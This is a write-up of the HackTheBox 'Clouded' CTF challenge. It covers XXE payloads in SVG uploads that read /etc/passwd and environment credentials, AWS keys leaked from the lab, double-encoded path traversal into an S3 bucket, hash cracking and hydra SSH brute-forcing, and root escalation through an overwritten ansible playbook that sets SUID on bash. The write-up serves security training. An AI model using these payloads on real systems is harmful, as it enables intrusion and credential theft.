<h1><ins>HackTheBox University CTF 2024: Clouded Writeup</ins></h1>

**Date:** 18/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Challenge Name:** Clouded\
**Difficulty:** Easy

## Reconaissance
### NMAP Scan


The NMAP scan showed me that there were 2 ports open, port 22 (SSH) and port 80 (HTTP). It also told me that the website running on port 80 had the domain name **clouded.htb**.

> Add **clouded.htb** to the /etc/hosts file

### FFUF Subdomain Scan


Whenever finding out the root domain of a website, I always immediately run a subdomain scan as they tend to hide some useful information, especially in CTFs. In this case, **FFUF** found the subdomain **local.clouded.htb**.

> Add **local.clouded.htb** to the /etc/hosts file

## First look at clouded.htb
After adding both **clouded.htb** and **local.clouded.htb** to my `/etc/hosts` file, I started up **BurpSuite**, enabled **foxy proxy** in my browser, and browsed to **clouded.htb**.

I was met with a *"galactic looking"* front page with a couple of links to other pages in the top corner. One of which was **"Upload"**, this caught my attention as I immediately thought about insecure file upload vulnerabilities.

I went to the upload page and was met with a basic upload form with a list of acceptable file types to upload.


To test the upload page, I created multiple files using the `touch` command:
```
touch test.pdf
touch test.docx
touch test.png
touch test.svg
touch test.svg.php
touch test.php.svg
```
I uploaded each file and checked for any upload errors. I found that it did not actually matter what type of file it is (based on magic-bytes), as long as it had one of the allowed file extensions. 

After uploading each of the files, I checked **BurpSuite** and noticed that when uploading a file, a **POST** request was being made to `/prod/upload/lambda`. The post request contained the header:\
`Content-Type: application/json`
and used JSON to pass the file data to the lambda function:
```
{
    "filename": "test.svg",
    "fileData": "<BASE64_ENCODED_FILE_CONTENT>"
}
```

This was my first hint towards the fact that the site was hosted on AWS and uses S3 buckets to store files.\
*(Also the Wappalyzer browser extension said it was using AWS.)*

After uploading a file, if it was successfully uploaded, it gave me a link to download the file, the link always pointed to:\
`http://local.clouded.htb/uploads/file_<random_string>.<file_extension>`

This made me think that the subdomain `local.clouded.htb` pointed to an S3 bucket that was used to store the uploaded files.

### Exploiting the file upload
Digging a bit deeper into the file upload form, I started modifying requests. I changed the content type from `application/json` to `application/xml`, replaced the JSON data with an XML **XXE (XML External Entity)** payload and forwarded the request. This made the site hang for a while and eventually returned a mangle of **Python** errors.\
(This actually made the website crash and I had to restart the box, so I suppose I found a Denial of Service vulnerability.)

After seeing how the site reacted to the XXE payload, I started to research other ways of exploiting **XXE** vulnerabilities and came across this [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#svg-file-upload) page which talks about **XXE** payload in SVG files.

I created a new SVG file and made the file content this payload:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM 'file:///etc/passwd'>
]>
<svg>
<text>&xxe;</text>
</svg>
```

I uploaded the file and it uploaded successfully with no errors, I then downloaded the file from the link it gave me, after opening the file I was met with the contents of the `/etc/passwd` file... **SUCCESS!**

I wanted to learn a bit more about the process, and assuming that the site was using AWS, I decided to try fetch information from `/proc/self/environ` to see any environment variables that the site might be using.

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
<text>&xxe;</text>
</svg>
```

After uploading the payload and then downloading the file from the given link, I saw a list of environment variables, including AWS credentials!



I didn't go down the route of using the AWS credentials and instead abused a **path traversal** vulnerability, but this confirmed my assumptions that it was using AWS and that the `local.clouded.htb` subdomain pointed to an S3 bucket storing the uploaded files.

## First look at local.clouded.htb
Browsing to `local.clouded.htb` I was met with an error page, even when visiting the `/uploads/` endpoint.



It seemed that I needed a valid file name to get anything other than an error from the endpoint. But this is where the first issue arose, the file names followed the format: `file_<random-string>.<file-extension>`. This would have made it borderline impossible to brute-force files as the random string was upper and lower-case letters, numbers, and it was around 8 characters long. So without many many hours of time, it wouldve been unfeasible.

### Path Traversal
Trying basic path traversal payloads on the `/uploads/` endpoint did not work, instead I had to use a double URL-encoded path traversal payload:
```
Basic Payload:          ../../../
URL-Encoded Payload:    ..%2F..%2F..%2F
Double URL-Encoded:     ..%252F..%252F..%252F
```

Appending the payload to the end of the URL (`http://local.clouded.htb/uploads/`) to be `http://local.clouded.htb/uploads/..%252F..%252F..%252F` returned a list of directories in the bucket!



The `clouded-internal` endpoint seemed interesting, so I simply added it to the end of my payload to see what files were within that directory and to my surprise, it contained a file named **"backup.db"**.



I downloaded the **"backup.db"** file and opened it up, it contained first names, last names, and the **MD5** hashes of the passwords of the users.

#### Using the AWS Credentials Instead of Path Traversal
As mentioned before, I didn't personally make use of the AWS credentials found in `/proc/self/environ` and instead abused the **path traversal** vulnerability as displayed above. But this is how the AWS credentials could have been used to achieve the same outcome:

1. Extract the required AWS values from the returned data
    - AWS_SECRET_ACCESS_KEY `(eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY)`
    - AWS_ACCESS_KEY_ID     `(AKIA5M34BDN8GCJGRFFB)`
    - AWS_REGION            `(us-east-1)`

2. Install the `aws` command-line tool\
    `sudo apt install awscli`

3. Use the credentials in the AWS configurations\
    `aws configure --endpoint-url=http://local.clouded.htb`\
    [Enter the AWS_SECRET_ACCESS_KEY, AWS_ACCESS_KEY_ID, and AWS_REGION when prompted]

4. Locate the **backup.db** file in the S3 bucket\
    `aws --endpoint-url=http://local.clouded.htb s3 ls`
  
5. Download the **backup.db** file\
    `aws --endpoint-url=http://local.clouded.htb s3 cp s3://clouded-internal/backup.db .`

6. Continue with the following stage to gain initial access

## Initial Access

I extracted names and passwords and put them into a file in the format:
```
<first_name>:<MD5_hash>
<first_name>:<MD5_hash>
...
```
I then used **hashcat** to crack the hashes:\
`hashcat -m 0 -a 0 --username hashes.lst /usr/share/wordlists/rockyou.txt`

> The `--username` flag tells **hashcat** to ignore the `<first_name>:` before the hash.



I copied the output from **hashcat** into a file and removed the hashes so it was in the format:
```
<name>:<password>
<name>:<password>
...
```

This meant that I could not use the list with **hydra** to brute-force SSH and test for password reuse.

As I didn't have specific usernames to test, only first and last names, I tested multiple different options for the usernames.

The first thing I tested was just `<first_name>:<password>`,\
then `<first_name>.<last_name>:<password>`,\
then `<first_name_initial>.<last_name>:<password>`,\
and finally `<last_name>:<password>`.

Of course, the username ended up being the last name in lowercase. But **hydra** was able to find valid credentials!

`hydra -C creds.lst ssh://clouded.htb`



**SSH Credentials: nagato / alicia**

I was then able to login to SSH using the correct credentials.



## Privilege Escalation
After gaining initial access, I ran the usual commands like `sudo -l` to see if the user had any sudo permissions, I checked for any internal services running, and checked processes, but nothing seemed to pop out at me.

I downloaded **pspy** from my local machine. This tool is used to monitor hidden processes that don't show up in the usual process list or in the cron jobs file.

I spotted that a process for **ansible-playbook** was running.



**Ansible-playbook** uses **.yml** files containing specific configurations to run specific tasks. If not configured properly, it can be used for privilege escalation or lateral movement to other users. In this case, it was being run as root so it could be abused for privilege escalation to root!

> [Ansible-playbook privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

The **ansible-playbook** was using a **.yml** file located at `/opt/infra-setup/checkup.yml`, which I could overwrite with my own **.yml** file.

I created a new YAML file in `/tmp` containing the contents:
```
---
- name: PriveEsc
  hosts: localhost
  tasks:
    - name: Set SUID /bin/bash
      command: chmod +s /bin/bash
```
This runs the command `chmod +s /bin/bash` to make **bash** an SUID binary, when the process next runs, which can be abused to spawn a root shell.

I then ran the command:\
`cp /tmp/malicious.yml /opt/infra-setup/checkup.yml`\
to replace the original YAML file with my own.

After waiting a while for the process to run, I checked to see if `/bin/bash` had been made an SUID binary.



**SUCCESS!** Now I was able to spawn a root shell using the command:\
`bash -p`



## Final Words
This challenge was very fun and used some rather uncommon vulnerabilities and misconfigurations that you don't often see in CTFs.